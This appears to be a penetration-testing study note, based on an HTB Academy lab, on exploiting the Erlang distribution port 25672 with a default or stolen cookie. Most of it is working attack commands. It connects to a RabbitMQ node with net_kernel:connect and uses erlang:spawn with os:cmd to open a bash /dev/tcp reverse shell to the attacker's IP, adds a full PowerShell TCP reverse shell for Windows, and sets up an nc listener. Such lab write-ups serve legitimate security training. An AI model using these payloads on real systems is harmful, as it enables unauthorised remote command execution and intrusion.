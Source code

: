 ```yaml
---
title: 25672 - Erlang Port
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - erlang
  - port
  - 25672
---
```

# 25672 - Erlang Port

!!! tip "Source of this note"
	- [https://malicious.link/posts/2018/erlang-arce/](https://malicious.link/posts/2018/erlang-arce/)
	- [HTB module](https://academy.hackthebox.com/module/67/section/926)

!!! warning ""
	 By running this code execution method you are running a node as well, as as long as you have the connection open, you can be exploited the same way you are exploiting the remote host.


---

## 📌 Overview

Erlang is a programming language designed around distributed computing and will have a network port that allows other Erlang nodes to join the cluster. The secret to join this cluster is called a cookie. Many applications that utilize Erlang will either use a weak cookie (RabbitMQ uses `rabbit` by default) or place the cookie in a configuration file that is not well protected. Some example Erlang applications are SolarWinds, RabbitMQ, and CouchDB.


### 🕵️‍♂️ Exploitation Scenario

- **Target Machine:** `10.129.101.49`
- **Attacker Machine (Kali):** `10.10.14.49`
- **Goal:** Achieve a **reverse shell** instead of opening an application (e.g., `calc.exe`).

---

## 🔍 Step 1: Locate or Guess the Erlang Cookie

Erlang uses a **cookie** as an authentication mechanism between nodes. It is stored in a file named `.erlang.cookie`.

### 📌 Common Locations:

- **Linux:** `~/.erlang.cookie`
- **Windows:** `C:\ProgramData\.erlang.cookie`

If you have access to the target filesystem, retrieve the cookie and place it in your home directory on Kali:

```bash
echo "retrieved_cookie_value" > ~/.erlang.cookie
chmod 400 ~/.erlang.cookie
```

If you don’t have direct file access, try common default values such as `rabbit`.

---

## 🔍 Step 2: Identify the Erlang Node Name

The target Erlang node name typically follows the format:

```
<cluster_name>@<hostname>
```

For RabbitMQ, the **cluster name** is often `rabbit`. If unknown, it may be guessable. The **hostname** may be derived from the system’s actual name. You can check DNS or `/etc/hosts` to resolve it.

Assuming:

- The **cluster name** is `rabbit`
- The **hostname** is `erlanghost`

Then, the full **node name** would be:

```
rabbit@erlanghost
```

---

## 🔍 Step 3: Start an Erlang Node on Kali

First, install Erlang if it's not already installed:

```bash
apt install erlang -y
```

Then, start an Erlang shell on your Kali machine:

```bash
erl -sname kali
```

---

## 🔍 Step 4: Connect to the Target Erlang Node

Inside the Erlang shell, connect to the target (adjusting the node name as necessary):

```erlang
net_kernel:connect('rabbit@erlanghost').
```

If successful, you are now part of the Erlang cluster and can execute remote commands.

---

## 🔍 Step 5: Achieve a Reverse Shell

Now, execute a command to get a **reverse shell**:

```erlang
erlang:spawn('rabbit@erlanghost', os, cmd, ["/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.49/4444 0>&1'"]).
```

Before running the command, set up a listener on your **Kali machine**:

```bash
nc -lvnp 4444
```

Once the payload executes, you should receive a **reverse shell**.

---

## 🔍 Step 6: Exit the Erlang Shell

To exit the Erlang shell cleanly, use:

```erlang
init:stop().
```

---

## 🔍 Notes & Considerations

- Ensure your **firewall** allows incoming connections on **port 4444**.
- If the target is a **Windows system**, adjust the payload to use `cmd.exe /c` and PowerShell techniques.
- If the connection fails, confirm the **cookie value** and **node name**.
- Be cautious: As long as you maintain the connection, your own **Kali machine can also be exploited**.

---

## 🔍 Windows Reverse Shell Alternative

If the target is a **Windows machine**, you can try this **PowerShell reverse shell** instead:

```erlang
erlang:spawn('rabbit@erlanghost', os, cmd, ["powershell -NoP -NonI -W Hidden -Exec Bypass -Command \"$client = New-Object System.Net.Sockets.TCPClient('10.10.14.49',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\""]).
```

Set up the listener in Kali as before:

```bash
nc -lvnp 4444
```

---

## 🔍 Summary

|**Step**|**Action**|
|---|---|
|**1**|Find or guess the Erlang cookie (`.erlang.cookie`)|
|**2**|Identify the Erlang node name (`rabbit@erlanghost`)|
|**3**|Start an Erlang node on Kali (`erl -sname kali`)|
|**4**|Connect to the target (`net_kernel:connect('rabbit@erlanghost').`)|
|**5**|Execute reverse shell (`erlang:spawn(...)`)|
|**6**|Clean exit (`init:stop().`)|

---

## 🔍 Additional Resources

- [Erlang RCE Exploitation](https://malicious.link/posts/2018/erlang-arce/)
- [HTB Academy - Exploiting Erlang](https://academy.hackthebox.com/module/67/section/926)
- [RabbitMQ Clustering Guide](https://www.rabbitmq.com/clustering.html)

This method provides **remote command execution** on an **Erlang node** by leveraging its **distributed computing capabilities**.
